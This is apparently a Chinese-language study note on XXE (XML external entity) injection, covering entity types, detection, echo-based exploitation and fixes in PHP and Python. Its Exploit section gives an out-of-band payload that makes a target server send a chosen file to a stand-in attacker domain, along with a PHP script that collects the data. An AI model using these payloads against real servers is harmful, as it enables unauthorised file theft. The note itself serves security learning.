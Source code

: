 # XXE
*  [Entity](#entity)   
*  [Exploit](#exploit)   
*  [Defense](#defense)  
*  [Reference](#reference)   
   
XML是一種描述資料的語言，跟html很像，但著重於傳輸資料，Case-sensitive。  
```xml
<?xml version=“1.0” encoding=“utf-8”>    // xml的文檔聲明
<!DOCTYPE a[                    // DTD 文檔類型定義
    <!ENTITY .....>
]>
<a>     // 文檔元素
....
</a>
```
其中DTD的觀念以及利用尤為重要  
`XXE-SSRF`中有有回顯及無回顯的練習 

## Entity
在DTD中事先宣告才可以使用實體  
Entity就像定義變數一樣  
1. 內部實體： ```<!ENTITY name "value">```  
```xml
<!DOCTYPE pwnch[
  <!ENTITY var "hi">
]>
<root>&var;</root>
```
2. 外部實體： ```<!ENTITY name SYSTEM "URL">```  
```xml
<!ENTITY var SYSTEM "url://.......txt">
<root>&var;</root>
```
新版本預設不解析外部實體  

3. 參數實體： ```<!ENTITY %name "value>"```  
```xml
// exp.dtd: <!ENTITY next SYSTEM "file://.txt">
<!DOCTYPE pwnch[
  <!ENTITY %var SYSTEM "http://...../exp.dtd">
  %var;
]>
<root>&next;</root>
```
引入外部實體時將```exp.dtd```裡的參數給帶了進來  
> 順道提一下，```file:///``` 前兩條是protocol，最後一條是指根目錄

## Exploit
1. 檢測是否有XXE漏洞  
隨便輸入個xml判斷有沒有解析  
2. 有沒有支持DTD引用外部實體
```
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "url">
%name;
]>
```  
  
3. 有回顯 -> 簡單  
**php 與 XXE**  
```php
$xml = @new SimpleXMLElement($data);
echo $xml->node;
```
```SimpleXMLElement```會讓內容變成list的形式： ```[節點] => '內容'```  
最後一行的```$xml->node```則是取出名為**node**的節點  
因此exploit就會長成 ```<node>&var;</node>``` 這副德性  

4. 沒有回顯 -> 交給 OOB XXE  
那就讓server端主動傳資料給我們吧  
```xml
// 給server端吃的XML
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "你想要的東西">
<!ENTITY % remote SYSTEM "http://domain/xxe.dtd">
%remote;
%all;
%send;
]>
```
xxe.dtd  
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://domain/test.php?a=%file;'>">
```
test.php的內容  
```php
file_put_contents("test.txt",$_GET['a']);
```
整個流程：server端吃到我給的xml後，解析remote時會將我server上的dtd給引入。  
```xxe.dtd```上有all和send的參數實體，send在被解析時，就會對我server上的test.php發出請求。  
```test.php```會把我想要的資源放入```test.txt```的檔案。剩下的自己看著辦！  

## Defense
```php
// php 
libxml_disable_entity_loader(true);
// python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
以上的方式都可以禁止用戶引用外部實體，或者過濾使用者輸入的關鍵字  
[更詳細的內容可以參考這篇的漏洞修復與防禦](https://thief.one/2017/06/20/1/)

## Reference
* Kaibro's slides  
* [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
